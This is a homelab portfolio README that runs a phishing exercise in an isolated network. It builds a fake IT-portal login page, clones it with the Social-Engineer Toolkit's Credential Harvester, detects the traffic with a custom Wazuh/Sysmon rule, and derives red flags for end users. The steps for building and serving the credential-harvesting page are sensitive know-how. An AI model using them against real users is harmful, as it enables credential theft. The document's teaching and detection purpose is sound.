# Social Engineering & Phishing Detection Lab

**Credential Harvesting, Sysmon/Wazuh Detection, and End-User Awareness Training**

A homelab project that runs a phishing attack end-to-end — from building and delivering a credential harvesting page, through detecting the resulting activity in Wazuh via Sysmon telemetry, to producing an end-user awareness resource from the findings. The exercise closes the loop across three perspectives: attacker, defender, and end user.

  

---

## Overview

This lab simulates a phishing attack against an internal end user, captures the resulting attack telemetry, and validates detection coverage using Wazuh SIEM.

The scenario uses a cloned internal IT portal login page, delivered to a domain-joined Windows client, with Kali Linux acting as the attacking host. Sysmon telemetry from the Windows client is correlated in Wazuh to detect the connection to the attacker-controlled page, and the resulting artefacts are used to build an end-user training resource highlighting common phishing red flags.

### Objectives

- Simulate a credential harvesting attack using a cloned internal login page
- Deliver the attack to a domain-joined Windows client on the internal lab network
- Capture submitted credentials and confirm the attack chain end-to-end
- Validate detection coverage in Wazuh using Sysmon telemetry from the victim host
- Map the attack to relevant MITRE ATT&CK techniques
- Produce an end-user awareness resource identifying phishing red flags

---

## Lab Environment

| Component | Details |
|---|---|
| **Wazuh Manager** | `192.168.100.30` |
| **Kali Linux (Attacker)** | `192.168.100.100` |
| **Windows Client (Victim, domain-joined)** | `192.168.100.101` |
| **Domain** | `homelab.local` |
| **Network** | VirtualBox Internal Network, `192.168.100.0/24` |
| **Attack Tooling** | Social-Engineer Toolkit (SET) — Credential Harvester Attack Method |

**Figure 1 — Network topology**



### Prerequisites

- Kali Linux VM with Social-Engineer Toolkit (SET) installed and network connectivity to the lab subnet
- Windows client VM, domain-joined to `homelab.local`, with Sysmon installed and forwarding logs to Wazuh
- Wazuh manager deployed and actively receiving agent telemetry from the Windows client
- Both VMs attached to the same VirtualBox internal network (`192.168.100.0/24`)
- Python 3 available on Kali (used to briefly host the source page for cloning)

---

## Phase 1 — Building the Phishing Page

Rather than cloning a live, JavaScript-heavy site, a simple static HTML login page was built to represent an internal IT portal. This kept the page fully compatible with SET's Credential Harvester, which reads standard HTML form fields rather than executing JavaScript, and allowed the pretext to be tailored to the `homelab.local` environment.

**1. Create the working directory and HTML page on Kali:**

```bash
mkdir -p ~/lab-demo
nano ~/lab-demo/index.html
```

The page uses a simple pretext — an expiring password notice — styled as an internal IT portal login:

```html
<h1>HomeLab.local IT Portal</h1>
<p>Your password expires in 24 hours.
Sign in to keep your account active.</p>

<form action="post.php" method="POST">
  <input type="text" name="username" placeholder="Username" required>
  <input type="password" name="password" placeholder="Password" required>
  <input type="submit" value="Sign In">
</form>
```

**2. Temporarily serve the page locally so it can be cloned by SET:**

```bash
cd ~/lab-demo
python3 -m http.server 8000
```

**Figure 2 — Rendered phishing login page as it appears to the end user**



---

## Phase 2 — Credential Harvesting with SET

**3. Launch the Social-Engineer Toolkit on Kali:**

```bash
sudo setoolkit
```

**4. From the main menu, select in order:**

1. Social-Engineering Attacks
2. Website Attack Vectors
3. Credential Harvester Attack Method
4. Site Cloner

**5. Set the POST-back IP to the Kali host's lab IP:**

```
IP address for the POST back in Harvester/Tabnabbing: 192.168.100.100
```

**6. Point SET at the locally hosted page to clone it:**

```
Enter the url to clone: http://127.0.0.1:8000/
```

SET clones the page and starts the Credential Harvester listener on port 80 of the Kali host. The temporary Python web server can then be stopped, as SET now serves its own copy of the page directly.

**Figure 3 — SET terminal confirming the Credential Harvester is running on port 80**



### Triggering the Scenario

**7. From the Windows client, browse to the Kali host's IP:**

```
http://192.168.100.100
```

**8.** Enter a set of test credentials into the login form and submit.

**9.** On the Kali host, the SET terminal immediately displays the captured fields:

```
[*] WE GOT A HIT! Printing the output:
POSSIBLE USERNAME FIELD FOUND: username=testuser
POSSIBLE PASSWORD FIELD FOUND: password=testpass123
```

**Figure 4 — SET terminal showing captured username and password fields**



### Generating the Attack Report

**10.** Once testing is complete, stop the harvester (`Ctrl+C`) to generate a report. SET writes a timestamped HTML/XML report summarising the harvested credentials, saved under `~/.set/reports/`. This report provides a clean, presentable record of the attack for documentation purposes.

**Figure 5 — SET-generated HTML attack report**



---

## Phase 3 — Detection with Wazuh

With Sysmon deployed on the Windows client and forwarding to the Wazuh manager, the browser's outbound connection to the Kali host is visible as network telemetry (**Sysmon Event ID 3 — Network Connection**). This section documents the detection rule used to alert on connections matching this attack pattern.

**11.** In the Wazuh dashboard, filter Windows client events around the time of the test for Sysmon Event ID 3, filtering on destination IP `192.168.100.100`.

**12.** Confirm the connection from the browser process is logged, showing source host, destination IP, and destination port 80.

**Figure 6 — Wazuh dashboard showing the Sysmon network connection event**



**13.** Create a custom Wazuh rule to alert on outbound connections from endpoint hosts to unexpected internal hosts on port 80, tuned to the lab's known-good server list. The rule is chained as a child rule of the base Sysmon network-connection rule (`<if_sid>92107</if_sid>`) and matches on destination IP via regex — full rule in [`wazuh-rules/local_rules_100025.xml`](./wazuh-rules/local_rules_100025.xml):

```xml
<rule id="100025" level="8">
  <if_sid>92107</if_sid>
  <match>Network connection detected</match>
  <regex>DestinationIp: 192\.168\.100\.100</regex>
  <description>Sysmon - Outbound connection detected to Kali attacker host (192.168.100.100)</description>
  <mitre>
    <id>T1566</id>
  </mitre>
</rule>
```

Rule logic was validated with `wazuh-logtest` prior to the live capture:



**14.** Re-triggered the scenario from the Windows client and confirmed the rule fires as a live alert in the Wazuh dashboard.

**Figure 7 — Wazuh alert triggered by the custom detection rule (rule 100025, level 8, MITRE T1566 — Initial Access / Phishing)**



**Figure 8 — Custom Wazuh detection rule (XML) and supporting evidence**




### MITRE ATT&CK Mapping

| Technique | Application in this Lab |
|---|---|
| **T1566 — Phishing** | Delivery of the cloned login page to the victim as the initial access vector |
| **T1204 — User Execution** | Victim interacts with the phishing page and submits credentials |
| **T1552 — Unsecured Credentials** | Credentials captured in plaintext via the cloned form |

---

## Phase 4 — End-User Awareness: Spotting the Red Flags

Using the phishing page built for this lab as a real, annotated example, the following red flags were identified and used to build a one-page awareness resource for end users.

| Red Flag | Why It Matters |
|---|---|
| **Urgency language** | "Your password expires in 24 hours" is designed to prompt quick action without careful thought |
| **Unfamiliar or unusual URL** | The address bar shows a raw IP address rather than a recognised company domain |
| **No HTTPS / "Not secure" warning** | Legitimate login portals use HTTPS; browsers flag HTTP pages as not secure |
| **Generic or missing personalisation** | The page does not address the user by name, unlike genuine IT communications |
| **Unsolicited password reset prompt** | No prior request was made by the user for a password reset |
| **Pressure to act outside normal channels** | Bypasses the organisation's standard self-service password reset process |

**Figure 9 — Annotated phishing page with red flags called out**



> **Key Takeaway for End Users:** Always verify unexpected password or account alerts through a separate, known channel (e.g. contacting IT directly) rather than clicking a link in the message itself — and check that the address bar shows a legitimate, secure (HTTPS) domain before entering any credentials.

---

## Conclusion

This lab demonstrated a complete social engineering attack chain, from crafting and delivering a credential harvesting page through to detecting the resulting activity in Wazuh using Sysmon telemetry. Mapping the attack to MITRE ATT&CK techniques and translating the findings into an end-user awareness resource ties together offensive, detective, and preventative security perspectives within a single exercise.

### Skills Demonstrated

- Social engineering attack simulation using the Social-Engineer Toolkit (SET)
- Credential harvesting page design and delivery
- Sysmon-based endpoint telemetry analysis
- Custom Wazuh detection rule development (rule chaining via `if_sid`, regex field matching)
- Rule validation with `wazuh-logtest` prior to live testing
- MITRE ATT&CK technique mapping
- Security awareness content creation for non-technical audiences

---

## Repository Structure

```
SE-Detection-Lab/
├── README.md
├── wazuh-rules/
│   └── local_rules_100025.xml  # Custom detection rule (T1566)
└── screenshots/                # Figures 1-9 referenced above
```

---

## Related Portfolio Projects

- [Metasploitable2 Samba Exploitation Lab](https://github.com/DaBoss8723/Metasploitable-2-Vulnerability-Assessment) (CVE-2007-2447)
- [Windows Server 2019 AD Penetration Testing Lab](https://github.com/DaBoss8723/Windows-Server-2019-Pentesting)

---

*Part of a homelab cybersecurity portfolio built to demonstrate hands-on detection engineering, offensive security, and SOC analyst skills.*
